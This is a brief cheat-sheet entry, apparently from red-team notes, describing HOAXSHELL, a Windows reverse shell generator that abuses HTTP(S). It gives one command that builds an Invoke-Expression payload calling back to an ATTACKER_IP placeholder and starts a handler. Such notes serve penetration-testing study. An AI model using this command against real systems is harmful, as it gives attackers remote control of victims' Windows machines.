 ```yaml
---
title: HOAXSHELL
summary: A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.
description: A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.
---
```


**https://github.com/t3l3machus/hoaxshell**

## Basis


 > 
 > **<font color=red>sudo python3 hoaxshell.py -s</font> \[ATTACKER_IP\]**</br>
 > Create a reverse shell payload (that utilizes `Invoke-Expression`) and start a handler.
